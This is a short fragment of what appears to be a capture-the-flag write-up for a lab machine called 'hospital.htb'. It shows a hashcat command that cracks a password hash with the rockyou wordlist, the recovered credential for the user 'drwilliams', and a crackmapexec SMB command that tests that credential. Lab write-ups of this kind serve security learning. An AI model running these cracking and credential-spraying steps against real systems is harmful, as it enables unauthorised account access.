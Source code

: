 ![image23](../resources/8b4d7167b45d4ca3a26ba2900d9b375d.png)

```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image24](../resources/9378609249f14eb6ab6c813f8c7677e2.png)

**drwilliams : qwe123!@#**

```bash
crackmapexec smb hospital.htb -u drwilliams -p 'qwe123!@#'

```
